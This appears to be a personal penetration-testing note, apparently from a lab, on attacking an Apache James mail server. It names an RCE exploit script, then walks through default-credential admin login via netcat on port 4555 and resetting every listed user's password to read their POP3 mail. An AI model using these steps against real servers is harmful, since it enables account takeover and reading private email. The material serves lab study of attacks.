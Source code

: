 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### 35513 RCE
exploit 35513.py

#### Manual
```bash - kali
nc -nvC $TARGET 4555
```

[https://james.apache.org/server/archive/configuration_v2_0.html](https://james.apache.org/server/archive/configuration_v2_0.html)

```bash - kali
root
```

```bash - kali
root
```
   
```bash - kali
HELP
```

```bash - kali
listusers
```

We do not have the ability to view user credentials. However can do the next best thing: we can change them with the setpassword command. Once we do so, we should be able to log onto the POP3 server and see if there are any emails available. We'll go ahead and change all the user credentials and then log on one by one.

```bash - kali
setpassword alice abcd
```

```bash - kali
setpassword bob abcd
```

```bash - kali
setpassword carlos abcd
```

```bash - kali
setpassword david abcd
```

```bash - kali
setpassword earl abcd
```

```bash - kali
setpassword frank abcd
```

```bash - kali
quit
```

While we could login one-by-one with our newly controlled credentials, we might as well use a little bash in order to speed up the process.

![[Port 110 - POP3#POP3 sh]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
